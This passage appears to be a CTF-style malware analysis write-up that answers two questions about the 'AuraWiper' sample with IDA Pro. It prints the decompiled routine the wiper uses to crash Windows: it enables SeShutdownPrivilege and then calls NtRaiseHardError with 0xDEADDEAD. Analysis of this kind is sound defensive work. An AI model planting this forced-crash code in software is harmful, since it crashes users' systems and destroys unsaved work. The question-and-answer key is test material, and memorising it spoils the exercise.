### Question 14: What is the name of the Windows Native API that AuraWiper uses to trigger a hard system error?

### Background: NtRaiseHardError and Forced System Crashes

**`NtRaiseHardError`** is an undocumented Windows Native System API exported by ntdll.dll. While legitimate Windows services use it to dispatch critical system error dialogs, malware authors frequently abuse it as an instant, ungraceful method to crash the entire operating system into a Blue Screen of Death (BSOD):

```c
NTSTATUS NtRaiseHardError(
    NTSTATUS ErrorStatus,               // e.g., 0xDEADDEAD (3735936685)
    ULONG NumberOfParameters,          // 0
    ULONG UnicodeStringParameterMask,   // 0
    PULONG_PTR Parameters,              // NULL
    ULONG ValidResponseOptions,         // 6 (OptionShutdownSystem)
    PULONG Response                     // Output response buffer
);
```

When combined with SeShutdownPrivilege (enabled via RtlAdjustPrivilege), calling NtRaiseHardError with ValidResponseOptions = 6 (OptionShutdownSystem) immediately panics the Windows kernel and forces a fatal system halt.

### Using the Strings Subview (Shift + F12)

1. Press Shift + F12 to open the Strings subview.
2. Press Ctrl + F and search for HardError or NtRaise.
3. Locate the ASCII string at address 0x14005DA40:
    
    .rdata:000000014005DA40  NtRaiseHardError
    
4. Double-click the string and press X to view cross-references → it is referenced at instruction 0x140015385 in function sub_140014E40.

#### Decompilation: sub_140014E40

Navigating to the final stage of sub_140014E40 (at 0x140015370–0x1400153D0) shows how the malware dynamically resolves and invokes NtRaiseHardError:

```c
// Address: 0x140014E40 (Termination Phase)
HMODULE hNtdll = LoadLibraryW(L"ntdll");

// 1. Resolve APIs dynamically from ntdll.dll
FARPROC NtRaiseHardError   = GetProcAddress(hNtdll, "NtRaiseHardError");
FARPROC RtlAdjustPrivilege = GetProcAddress(hNtdll, "RtlAdjustPrivilege");

// 2. Enable SeShutdownPrivilege (Privilege ID 19)
RtlAdjustPrivilege(19, TRUE, 0, &prev_state);

// 3. Trigger Hard Error with status 0xDEADDEAD (3735936685) to force a BSOD
NtRaiseHardError(
  0xDEADDEAD,            // 3735936685LL (Hardcoded Fatal Status Code)
  0,                     // NumberOfParameters
  0,                     // UnicodeStringParameterMask
  0,                     // Parameters
  6,                     // ValidResponseOptions (OptionShutdownSystem)
  &response              // Output Response
);
```



decompilation - sub_140014E40

ANSWER:

```c
NtRaiseHardError
```

---

### Question 15: What hexadecimal value is passed as the ErrorStatus parameter to the native API that triggers the hard system error?

#### Technical Analysis

In Windows, the ErrorStatus parameter of NtRaiseHardError represents the NTSTATUS error code that will be displayed on the resulting crash screen / bugcheck.

```c
NTSTATUS NtRaiseHardError(
    NTSTATUS ErrorStatus,               // 1st param: ecx -> 0xDEADDEAD
    ULONG NumberOfParameters,          // 2nd param: edx -> 0
    ULONG UnicodeStringParameterMask,   // 3rd param: r8d -> 0
    PULONG_PTR Parameters,              // 4th param: r9d -> 0
    ULONG ValidResponseOptions,         // 5th param: [rsp+20h] -> 6 (OptionShutdownSystem)
    PULONG Response                     // 6th param: [rsp+28h] -> &response
);
```

The author deliberately chose the famous hex magic value 0xDEADDEAD (MANUALLY_INITIATED_CRASH1 / custom fatal status) as an unmistakable signature of malware destruction.

#### Disassembly of (sub_140014E40)

Examining instructions 0x1400153D5–0x1400153E2 inside function **`sub_140014E40`** in IDA Pro:



ANSWER:

```c
0xdeaddead
```

---